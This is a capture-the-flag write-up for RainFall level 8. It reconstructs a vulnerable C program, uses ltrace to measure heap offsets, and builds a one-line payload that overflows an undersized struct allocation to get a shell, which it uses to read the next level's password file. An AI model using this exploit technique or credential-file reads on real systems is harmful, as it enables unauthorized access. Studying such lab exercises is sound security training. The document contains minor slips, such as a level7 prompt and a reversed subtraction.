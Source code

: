 # Level 8

## Answer
Our C source code generates the same assembly code as the original binary. Compile it as follows:
```
gcc -fno-stack-protector source.c
```

Let's take a look at the source code:
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

struct s_user {
    int id;
    char login[28];
    int is_auth;
};

int *service;
struct s_user *user;

int main()
{
    while (1)
    {
        printf("%p, %p \n", user, service);

        char buf[128];

        if (!(fgets(buf, 128, stdin)))
            break;

        if (!(strncmp(buf, "auth ", 5)))
        {
            user = malloc(4);
            user->id = 0;

            if (strlen(buf + 5) <= 30)
                strcpy(user, buf + 5);
        }

        if (!(strncmp(buf, "reset", 5)))
            free(user);

        if (!(strncmp(buf, "service", 6)))
            service = strdup(buf + 7);

        if (!(strncmp(buf, "login", 5)))
        {
            if (user->is_auth)
                system("/bin/sh");
            else
                fwrite("Password:\n", 1, 10, stdout);
        }
    }
    return 0;
}
```

Let's focus on the `main` function. It reads input using the `fgets` function, which is known to be safe due to its mechanism to limit the number of bytes read. Different commands are then executed based on the input:
- `auth`: Allocates a user structure and copies the input into it.
- `reset`: Frees the user structure.
- `service`: Copies the input into the service buffer.
- `login`: Checks if the user is authenticated and, if so, grants shell access.

We notice that the `auth` doesn't allocate enough memory for the user structure, which is 36 bytes long (4 bytes for the id, 28 bytes for the login and 4 bytes for the `is_auth` field). This means that, with the `service` command, we can write to the user structure, since it will be allocated within the same memory space, and overwrite the `is_auth` field to gain shell access.

Here's the following steps to perform the exploit:
1. Use `auth` to allocate the user structure.
2. Use `service` to write in the user structure and overwrite `is_auth`
3. Execute `login` to verify authentication and obtain a shell.

We'll use `ltrace` to understand the memory allocations and calculate the size needed to overwrite `is_auth`:
```bash
$ ltrace ./level8
[...]
fgets(auth
"auth \n", 128, 0xb7fd1ac0) = 0xbffff6d0
malloc(4) = 0x0804a008
strcpy(0x0804a008, "\n") = 0x0804a008 # user
[...]
fgets(service
"service\n", 128, 0xb7fd1ac0) = 0xbffff6d0
strdup("\n") = 0x0804a018 # service
[...]
level8@RainFall:~$
```

We notice that the the user structure is allocated at `0x0804a008` for only 4 bytes, which is not enough to store the whole structure that is 36 bytes long. We also notice that the service buffer is allocated at `0x0804a018` (so within the same memory space as the user structure, since it is located between `0x0804a008` and `0x0804a028`). Futhermore we notice that the `is_auth` field is located at the 32nd byte of the user structure.  
So let's simply calculate the offset needed to reach `is_auth`:
```
0x0804a018 - 0x0804a008 = 0x10 (16 in decimal)
32 - 16 = 16 bytes of padding
```

We substract 32 from 16 because the `service` buffer was already allocated 16 bytes after the user structure. So we'll have to write 16 bytes of padding to reach `is_auth`. Anything written after that will overwrite `is_auth`.

Let's craft our payload:
```
"auth "
"service" + padding
"login"

"auth \n" + "service" + "A"*16 + "\n" + "login\n"
```

The `\n` are needed to simulate the user pressing the enter key and it will also serve as the 17th character needed to overwrite `is_auth`.

Let's run our payload:
```bash
level7@RainFall:~$ (echo "auth "; python -c 'print("service" + "A"*16)'; echo "login"; cat) | ./level8
(nil), (nil) 
0x804a008, (nil) 
0x804a008, 0x804a018 
cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
0x804a008, 0x804a018
```
> The `echo` commands and `print` python fucntion will both add a newline character at the end of the string.

We are now level9! Let's move on to the next level.